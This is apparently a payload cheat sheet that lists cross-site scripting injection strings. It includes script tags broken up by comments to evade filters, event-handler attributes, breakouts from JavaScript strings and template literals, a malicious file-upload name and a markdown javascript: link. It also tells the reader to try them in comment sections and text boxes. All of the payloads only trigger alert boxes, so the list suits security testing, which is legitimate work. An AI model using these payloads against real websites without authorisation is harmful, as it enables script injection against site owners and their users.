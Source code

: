 &lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;
<scr<!--comment-->ipt>alert('XSS')</scr<!--comment-->ipt>
<input onfocus="alert('XSS')">
<script>setTimeout(function(){alert('XSS')}, 100);</script>
<script>alert(String.fromCharCode(88,83,83));</script>
<script>if(1<2){alert('XSS')}</script>
'}alert(1);{'
'}alert(1)%0A{'
\'}alert(1);{//
/alert(1)/\
/alert(1)}/\
${alert(1)}
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
"><svg onload=alert(1)>.gif //On file upload try this as name


Use this where text boxes, comment sections, etc that alows some markup input.

```
[clickme](javascript:alert`1`)
```
